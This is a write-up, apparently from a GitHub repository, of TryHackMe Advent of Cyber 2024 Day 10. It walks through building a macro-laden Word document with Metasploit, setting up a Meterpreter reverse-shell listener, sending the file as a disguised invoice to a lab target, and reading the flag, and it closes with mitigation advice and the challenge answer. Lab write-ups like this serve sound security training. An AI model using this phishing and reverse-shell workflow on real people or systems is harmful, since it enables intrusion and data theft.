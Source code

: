# 🎄 TryHackMe Advent of Cyber 2024 – Day 10: Phishing and Macro Exploitation

## Objectives 🎯

Day 10 focuses on understanding **phishing attacks** and how malicious macros can be embedded into Microsoft Office documents to execute payloads. The key tasks include:
- Learning how phishing exploits social engineering to bypass security.
- Creating a malicious macro-enabled document using Metasploit.
- Executing a phishing simulation to deliver the malicious document and gain a reverse shell.

## Steps 🚀

### **Step 1: Setting Up the Environment**
1. **Start the Machines:**
   - Click the **Start Machine** button to start the **target machine** attached to this task.
   - Launch the **AttackBox** by clicking the **Start AttackBox** button at the top of the page.
   
2. **Launch Metasploit Framework:**  
   Open the AttackBox terminal and start Metasploit:
   ```
   msfconsole
   ```

3. **Set Payload for Reverse Shell:**  
   Configure the payload:
   ```
   set payload windows/meterpreter/reverse_tcp
   ```

4. **Specify Exploit Module:**  
   Use the module to create a malicious macro:
   ```
   use exploit/multi/fileformat/office_word_macro
   ```

5. **Set Listener Details:**  
   Define the attacker IP (`LHOST`) and port (`LPORT`):
   ```
   set LHOST ATTACKBOX_IP
   set LPORT 8888
   ```

6. **Generate Malicious Document:**  
   Generate the Word document with the embedded macro:
   ```
   exploit
   ```
   The document (`msf.docm`) is saved to `/root/.msf4/local/msf.docm`.

---

### **Step 2: Configuring the Listener**
1. **Start the Listener in Metasploit:**  
   Use the multi-handler module to listen for incoming connections:
   ```
   use multi/handler
   set payload windows/meterpreter/reverse_tcp
   set LHOST ATTACKBOX_IP
   set LPORT 8888
   exploit
   ```

2. **Wait for Connections:**  
   The listener is now ready to capture reverse shells once the document is executed.

### **Step 3: Sending the Malicious Document**
1. **Log In to the Mail Server:**  
   Open Firefox in the AttackBox and navigate to `http://MACHINE_IP`. Use the provided credentials:
   - **Email:** info@socmas.thm  
   - **Password:** MerryPhishMas!

2. **Compose a Phishing Email:**  
   Attach the malicious document (`msf.docm`) and send it to the target:
   - **Recipient:** marta@socmas.thm  
   - Rename the document to something plausible like `invoice.docm`.

3. **Social Engineering Message:**  
   Write a convincing message in the email body to entice the target to open the document.

### **Step 4: Exploitation**
1. **Target Opens the Document:**  
   Once Marta opens the document, the embedded macro executes, establishing a reverse shell connection.

2. **Access the Target System:**  
   In Metasploit, observe the successful connection:
   ```
   msf6 exploit(multi/handler) > exploit
   ```

3. **Navigate to the Desktop:**  
   Use the Meterpreter session to find the `flag.txt`:
   ```
   cd c:/users/Administrator/Desktop
   ls
   cat flag.txt
   ```

4. **Retrieve the Flag:**  
   The flag is displayed.

**Flag:** `THM{PHISHING_PAYLOAD_WIN}`

## Key Findings 🔑

1. **Phishing Attacks:**  
   Social engineering is a highly effective method to bypass technical defenses.
   
2. **Malicious Macros:**  
   Macros in Office documents can be weaponized to execute payloads and gain remote access.

3. **Reverse Shell:**  
   A reverse shell allows attackers to control a compromised system remotely, bypassing firewalls and NAT.

## Lessons Learned 🌟

### Key Takeaways
1. **Human Factor:**  
   Phishing attacks exploit human error, making security awareness training critical.
   
2. **Macro Exploitation:**  
   Embedding malicious macros in commonly used file formats can evade basic defenses.

3. **Phishing Prevention:**  
   - Use domain filtering to block typosquatting domains.
   - Enable email security tools like DKIM and SPF.
   - Educate users to identify phishing attempts.

### Mitigation Strategies
- Disable macros by default in Office applications.
- Monitor outgoing network connections for unusual activity.
- Deploy advanced endpoint protection solutions.

### Tools and Techniques 🛠️
1. **Metasploit Framework:**  
   Used to generate malicious documents and handle reverse shells.
2. **Email Server Simulation:**  
   Sent phishing emails to the target.
3. **Meterpreter:**  
   Exploited the connection to gain control over the target system.

## Final Thoughts 🎁

Day 10 provided hands-on experience with **phishing attacks** and the power of **macro-enabled documents** in social engineering exploits. This task emphasized the importance of user training and technical controls to mitigate phishing risks. The seamless integration of Metasploit made this challenge both informative and practical for real-world scenarios.

### Answers ✅
1. **What is the flag value inside the `flag.txt` file?**  
   **Answer:** `THM{PHISHING_PAYLOAD_WIN}`

## Table of Contents 📚

- [Day 1: OPSEC Challenge](day1.md)  
- [Day 2: Log Analysis](day2.md)  
- [Day 3: Log Analysis](day3.md)  
- [Day 4: Atomic Red Team](day4.md)  
- [Day 5: XXE Exploitation](day5.md)  
- [Day 6: Sandboxes](day6.md)  
- [Day 7: AWS Log Analysis](day7.md)  
- [Day 8: Shellcode Execution](day8.md)  
- [Day 9: Risk Assessment Challenge](day9.md)  
- **Day 10: Phishing**
- [Day 11: Wi-Fi Attacks](day_11.md)
- [More Days to Come!](README.md)
